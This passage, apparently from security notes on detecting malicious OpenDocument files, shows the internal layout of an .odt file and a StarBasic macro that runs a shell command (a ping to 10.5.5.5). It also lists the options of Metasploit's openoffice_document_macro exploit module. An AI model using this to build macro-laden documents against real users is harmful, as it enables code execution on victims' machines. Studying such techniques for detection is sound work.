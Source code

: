     ├── content.xml
    ├── manifest.rdf
    ├── META-INF
    │   └── manifest.xml
    ├── meta.xml
    ├── mimetype
    ├── settings.xml
    ├── styles.xml
    └── Thumbnails
        └── thumbnail.png
    

In this case, `temp.xml` has my full macros in it:

    
    
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE script:module PUBLIC "-//OpenOffice.org//DTD OfficeDocument 1.0//EN" "module.dtd">
    <script:module xmlns:script="http://openoffice.org/2000/script" script:name="temp" script:language="StarBasic" script:moduleType="normal">REM  *****  BASIC  *****
    
    Sub Main
    
            Shell(&quot;ping -n 2 10.5.5.5&quot;)
    
    End Sub
    
    </script:module>
    

## Rule For MSF Libre Office

### Metasploit odt

Metasploit has a module for OpenDocument creation.

#### MSF Implementation

The module has the following options:

    
    
    msf5 > use exploit/multi/misc/openoffice_document_macro
    msf5 exploit(multi/misc/openoffice_document_macro) > options
    
    Module options (exploit/multi/misc/openoffice_document_macro):
    
       Name      Current Setting  Required  Description
       ----      ---------------  --------  -----------
       BODY                       no        The message for the document body
       FILENAME  msf.odt          yes       The OpoenOffice Text document name
       SRVHOST   0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
       SRVPORT   8080             yes       The local port to listen on.
       SSL       false            no        Negotiate SSL for incoming connections
       SSLCert                    no        Path to a custom SSL certificate (default is randomly generated)
       URIPATH                    no        The URI to use for this exploit (default is random)
    